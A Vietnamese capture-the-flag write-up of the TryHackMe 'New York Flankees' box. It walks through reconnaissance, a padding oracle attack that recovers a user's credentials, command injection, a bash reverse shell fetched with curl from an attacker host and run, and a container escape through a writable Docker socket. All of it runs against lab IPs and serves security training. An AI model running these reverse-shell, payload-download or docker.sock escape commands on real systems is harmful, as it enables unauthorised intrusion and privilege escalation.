 # [THM] New York Flankees write-up

- IP: 10.10.11.84

## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -sT -sV -sC -T4 10.10.11.84

<p align="center">
    <img src="./img/nmap-scan.png" alt="Nmap scan">
</p>

Có 2 port dịch vụ đang mở bao gồm
- Port 22 chạy dịch vụ SSH
- Port 8080 chạy dịch vụ HTTP 

Khi cập với port 8080 ta được web có giao diện như đưới

![Web interface](./img/web-interface.png)

Sau khi khám phá thì phát hiện ra `/login.html` và `/debug.html`

![Login interface](./img/login-interface.png)
![Debug interface](./img/debug-interface.png)

Ngoài 2 tệp bên trên ra ta còn phát hiện `/exec.html` khi scan thư mục ẩn bằng ffuf nhưng rta không có quyền truy cập, tôi nghĩ rằng chúng ta phải tìm cách đăng nhập để có thể truy cập được tệp đó

![ffuf scan](./img/ffuf-scan.png)

Quay trở lại với trang login và debug sau khi kiểm tra thì thấy source của `debug.html` có get 1 api lạ, để gửi mã gì đó tới `/api/debug` và lấy mã thông báo xác thực 

## Exploit

![Get API](./img/get-api.png)

Phân tích và thử truy cập thì ta nhận được kết quả như hình bên dưới

![Access API](./img/access-api.png)

Sau khi thử thêm bất kì ký tự gì vào url thì đều bị lỗi, kết hợp với thông báo ở `/debug.html` ta có thể tấn công bằng `Padding Oracle` (một số keyword chúng ta có thể search đó là `AES/CBC/PKCS`, `Oracle`, `Padding error`)

Cùng làm rõ lỗ hổng này **Oracle Padding** (hay còn gọi là **Oracle Padding Attack** hoặc **Padding Oracle Attack**) là một kiểu tấn công mật mã thuộc nhóm **side-channel attacks** nhằm khai thác cách hệ thống phản hồi lỗi khi giải mã dữ liệu được padding sai, thường trong các thuật toán mã hóa **block cipher** như **AES trong chế độ CBC (Cipher Block Chaining)**

### Chế độ mã hóa CBC
 **Mã hóa**

- Khối đầu tiên: Plaintext được XOR với Initialization Vector (IV), sau đó được mã hóa bằng khóa bí mật
- Các khối tiếp theo: Mỗi khối plaintext được XOR với khối ciphertext trước đó, sau đó được mã hóa

<p align="center">
    <img src="./img/cbc-encryption.png" alt="CBC encryption">
</p>

 **Giải mã**

- Giải mã khối ciphertext: Mỗi khối ciphertext được giải mã bằng khóa bí mật
- XOR với khối trước đó: Kết quả giải mã được XOR với khối ciphertext trước đó (hoặc IV đối với khối đầu tiên) để thu được plaintext

<p align="center">
    <img src="./img/cbc-decryption.png" alt="CBC decryption">
</p>

**Padding là gì**

Khi plaintext không đủ độ dài để tạo thành một khối đầy đủ, hệ thống sẽ thêm **padding** để lấp đầy khối.

**Dấu hiệu**

- Lỗi trả về đã cho ta biết hệ thống cố thể bị khai thác bởi lỗ hổng này, cụ thể với hệ thống đang khai thác

**Một số công cụ kiểm thử, khai thác**

- `padre`: https://github.com/glebarez/padre
- `padbuster`: https://github.com/AonCyberLabs/PadBuster

Ta sẽ đi vào khai thác, tôi sẽ sử dụng `padbuster`. Đầu tiên cần install công cụ trên máy attacker
```bash
sudo apt install padbuster
```
Sau đó chạy câu lệnh sau để thực hiện khai thác
```bash
padbuster http://10.10.11.84:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4 "39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4" 16 -encoding 2 -error "Decryption error"
```
Câu lệnh trên bao gồm

- `http://10.10.11.84:8080/api/debug/`: URL
- `39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4`: ciphertext/token
- `16`: Block size  --> Vì chúng ta biết AES đang được sử dụng, kích thước khối hợp lệ duy nhất cho AES là 128 Bit hoặc 16 Byte
- `encoding`: 2 là dạng uppercase hex
- `error`: Thông báo lỗi mà ứng dụng trả về khi xảy ra lỗi padding

Sau khi sử dụng công cụ trên thì gặp chút vấn đề và không thể tìm ra được plaintext chúng ta muốn
![Padbuster](./img/padbuster.png)

Vậy ta sẽ sử dụng công cụ còn lại đó là `padre` với câu lệnh 
```bash
padre -err "Decryption error" -e lhex -u 'http://10.10.11.84:8080/api/debug/$' '39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4'
```
Sau khi sử dụng tool này đã lấy được tài khoản và mật khẩu của stefan: `stefan1197:ebb2B76@62#f??7cA6B76@6!@62#f6dacd2599` các chuỗi ký tự `\x0f` đằng sau là padding

![Stefan Account](./img/stefan-account.png)

Do một số trục trặc từ giờ trở đi ip sẽ là 
- **IP: 10.10.79.153**

## First flag

Sau khi đăng nhập bằng thông tin ở trên đã truy cập được vào `/exec.html` và đã lấy được flag đầu tiên

![First flag](./img/first-flag.png)

## Second flag

Sau khi lấy được flag và nhận thấy page này có thể nhập được command và thực thi, nếu là câu lệnh hợp lệ sẽ return OK 

<p align="center">
    <img src="./img/test-command.png" alt="Test command">
</p>

Ta sẽ nghĩ ngay tới reverse shell, tạo reverse shell bash `bash -i >& /dev/tcp/10.21.113.26/1234 0>&1` và **netcat listener** trên máy attacker để lắng nghe. Nhưng khi nhập trực tiếp vào ô input thì response trả về chỉ là OK và không thể truy cập được shell.

Nghĩ tới phương án tiếp theo có thể upload shell và thực thi đó là tạo server trên máy attacker sau đó download và thực thi trên máy nạn nhân. Tạo file `shell.sh` với nội dung reverse shell trên và `python3 -m http.server 2222`. Sau đó chạy `curl http://10.21.113.26:2222/shell.sh -o /tmp/shell.sh` trên ô input để download và tiếp tục chạy lần lượt các câu lệnh `chmod x+ /tmp/shell.sh` để cấp quyền. `bash /tmp/shell.sh` để thực thi. Tất cả các câu lệnh trên đều trả về status OK

<p align="center">
    <img src="./img/access-shell.png" alt="Access shell">
</p>

Khi đã truy cập được shell thì nhận thấy có vẻ như đang ở trong docker container vì thấy file `.dockerenv`. Sau một hồi tìm kiếm đã tìm thấy flag thứ 2 trong `env`

<p align="center">
    <img src="./img/second-flag.png" alt="Second flag">
</p>

## Final flag
Sau khi tìm kiếm một hồi và không thu thập được thông tin gì thêm thì tôi nghĩ cần phải thoát khỏi môi trường `docker`.

<p align="center">
    <img src="./img/docker-sock.png" alt="Docker sock">
</p>

Kiểm tra thì thấy `/var/run/docker.soc` có quyền đọc ghi. Mà docker socket được gắn bên trong container nên có thể tương tác với docker engine và thoát khỏi conainer bằng cách sử dụng nó

<p align="center">
    <img src="./img/docker-compose.png" alt="Docker compose">
</p>

Kiểm tra docker image sau đó chạy lệnh 
```bash
docker run -v /:/host --rm -it openjdk:11 bash
```
- `docker run`: để chạy 1 container từ 1 docker image
- `-v /:/host`: sử dụng đẻ mount thư mục từ máy chủ vào container, `/` là thư mục **root** của máy chủ, `/host` là thư mục trong container mà thư mục root của máy chủ được mount vào
- `--rm`: Docker sẽ tự động xóa container sau khi nó dừng lại
- `-it`: cho phép truy cập vào shell của container và làm việc trực tiếp trong container
- `openjdk:11`: tên và tag của docker image mà sử dụng để tạo container
- `bash`: Sau khi khởi tạo container tạo 1 shell bash

<p align="center">
    <img src="./img/bash-shell.png" alt="Shell">
</p>

Đã vào được root shell, thực hiện tìm kiếm flag với câu lệnh `find / -name "flag.txt" 2>/dev/null`

<p align="center">
    <img src="./img/final-flag.png" alt="Final flag">
</p>

## DONE